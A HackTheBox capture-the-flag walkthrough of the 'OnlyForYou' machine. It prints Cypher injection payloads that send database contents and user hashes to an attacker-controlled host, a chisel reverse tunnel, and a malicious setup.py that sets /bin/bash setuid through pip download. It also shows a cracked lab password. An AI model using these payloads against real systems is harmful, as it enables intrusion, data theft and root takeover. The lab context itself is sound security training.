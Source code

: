 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*

![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000 and 8001
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅
![image](https://user-images.githubusercontent.com/127159644/236717017-4ae503d5-2697-4403-8c33-8eee48cc1f4d.png)

Hmmmm that's an instance of Gogs

I checked /explore to see if i can get any repo but i didn't tho i got two users which were *John and Administrator*
![image](https://user-images.githubusercontent.com/127159644/236717468-98e81d97-39c4-4766-9876-cfe9f608b44c.png)

Nothing much we can do now

Lets port forward the service on port 8001 and see what we can fetch 

After I did that (the same i port forwarded earlier) looking at the page shows this
![image](https://user-images.githubusercontent.com/127159644/236717677-1742d53a-3490-4f89-ad45-e317176d5214.png)

Trying weak cred *admin:admin* works
![image](https://user-images.githubusercontent.com/127159644/236717758-e9528367-0261-48b4-bfe9-62c79d54b704.png)

Poking around I saw the notes left by the admin

![image](https://user-images.githubusercontent.com/127159644/236717899-c48aa7c2-60f8-45d9-9d1e-2ac70d875c8d.png)

The db is based of neo4j interesting 🤔

There's a search function of the web app
![image](https://user-images.githubusercontent.com/127159644/236717977-991faca1-807d-4ac0-9506-617505ffc1fb.png)

Looking for how to exploit neo4j database leads to Cypher Injection here's the [source](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We can test with this query through Burpsuite to know the version, then url encode and send it a web server hosted by us.

```sql
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.175/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Trying the query leaks the version
![image](https://user-images.githubusercontent.com/127159644/236718595-8bf9d822-d889-4245-b196-6c50ed12e07b.png)
![image](https://user-images.githubusercontent.com/127159644/236718623-4da759bb-625a-4114-8357-512c73ff0cef.png)

Now lets get the list of tables

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.175/?label='+label as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719094-e295b16d-f40e-40da-b8a2-5d9665fb25a9.png)
![image](https://user-images.githubusercontent.com/127159644/236719119-0536de45-fbd8-409d-9061-66992e1759ba.png)

Lets dump the users 🙂

```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.175/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719601-0f0aa538-ec26-414f-9ac9-f1a3478099ed.png)
![image](https://user-images.githubusercontent.com/127159644/236719571-89a3a6db-91a6-4e92-a0ad-fadbe415c235.png)

Cool we have the hash of two users *admin & john* since we already know the admin user's password which is *admin* lets crack that of John's
![image](https://user-images.githubusercontent.com/127159644/236719927-5c9ef76f-3feb-4610-a5ea-26b50b6ccfb0.png)

The password for user John is *ThisIs4You*

Lets try this over ssh
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b2ea6c18-eaef-4479-8b7d-495b7cafff0a)

Cool it works finally 😭

Lets escalate privilege to root 🙂

Checking sudo permission shows that the user can run `/usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz` as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fea37e1c-b355-42be-93dd-4b41103d4aa1)

Remember that the service running on port 3000 is Gogs

After searching for privilege escalation with *pip download* i found this [article](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

I downloaded the repo and modified the setup.py file to make */bin/bash* suid
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/93c58f20-6bb9-49f6-bbcb-2fc77d355414)

```python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("chmod +s /bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Now I will create the .tar.gz file that will be the one to be uploaded to the repository on Gogs.
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4917881b-be5a-49a3-9e40-4c869c5673f5)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ce151d92-dce0-4694-a14c-75d65eca0b40)

```bash
pip install build --break-system-packages
python3 -m build
```

With this ready i'll create a new repo the Gogs instance then upload the tar.gz file

I'll login as *john:ThisIs4You* on the Gogs instance
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6290556c-ec26-4bae-bd80-d61dea680a0a)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4d3a7e91-e72b-440e-b8a9-dfbdb844c4e0)

Now create a new repo
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0a068d7b-77d7-4fd7-9153-5f5b3a0a9720)

I'll upload the tar file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ad218262-eee5-4e42-bb83-9c14d9d040c6)

Lets run pip download on the uploaded tar file
![root](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/af915a4e-607b-485a-b866-0c58473dcb27)

